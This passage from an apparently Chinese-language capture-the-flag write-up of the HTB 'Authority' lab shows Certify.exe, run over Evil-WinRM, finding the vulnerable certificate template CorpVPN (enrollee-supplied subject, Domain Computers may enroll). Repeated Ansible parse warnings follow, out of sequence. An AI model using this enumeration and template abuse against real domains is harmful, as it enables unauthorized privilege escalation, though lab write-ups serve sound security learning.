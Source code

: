 运行命令后发现一个名为 `CorpVPN` 的漏洞模板：
```powershell
*Evil-WinRM* PS C:\Users\svc_ldap\Downloads> ./Certify.exe find /vulnerable

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=authority,DC=htb'

[*] Listing info about the Enterprise CA 'AUTHORITY-CA'

    Enterprise CA Name            : AUTHORITY-CA
    DNS Hostname                  : authority.authority.htb
    FullName                      : authority.authority.htb\AUTHORITY-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=AUTHORITY-CA, DC=authority, DC=htb
    Cert Thumbprint               : 42A80DC79DD9CE76D032080B2F8B172BC29B0182
    Cert Serial                   : 2C4E1F3CA46BBDAF42A1DDE3EC33A6B4
    Cert Start Date               : 4/23/2023 9:46:26 PM
    Cert End Date                 : 4/23/2123 9:56:25 PM
    Cert Chain                    : CN=AUTHORITY-CA,DC=authority,DC=htb
    UserSpecifiedSAN              : Disabled
    CA Permissions                :
      Owner: BUILTIN\Administrators        S-1-5-32-544

      Access Rights                                     Principal

      Allow  Enroll                                     NT AUTHORITY\Authenticated UsersS-1-5-11
      Allow  ManageCA, ManageCertificates               BUILTIN\Administrators        S-1-5-32-544
      Allow  ManageCA, ManageCertificates               HTB\Domain Admins             S-1-5-21-622327497-3269355298-2248959698-512
      Allow  ManageCA, ManageCertificates               HTB\Enterprise Admins         S-1-5-21-622327497-3269355298-2248959698-519
    Enrollment Agent Restrictions : None

[!] Vulnerable Certificates Templates :

    CA Name                               : authority.authority.htb\AUTHORITY-CA
    Template Name                         : CorpVPN
    Schema Version                        : 2
    Validity Period                       : 20 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT_CHECK_USER_DS_CERTIFICATE
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Document Signing, Encrypting File System, IP security IKE intermediate, IP security user, KDC Authentication, Secure Email
    mspki-certificate-application-policy  : Client Authentication, Document Signing, Encrypting File System, IP security IKE intermediate, IP security user, KDC Authentication, Secure Email
    Permissions
      Enrollment Permissions
        Enrollment Rights           : HTB\Domain Admins             S-1-5-21-622327497-3269355298-2248959698-512
                                      HTB\Domain Computers          S-1-5-21-622327497-3269355298-2248959698-515
```

[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with yaml
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with ini
[WARNING]: Unable to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory as an inventory
[WARNING]: No inventory was parsed, only implicit localhost is available
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with yaml
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with ini
[WARNING]: Unable to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory as an inventory
[WARNING]: No inventory was parsed, only implicit localhost is available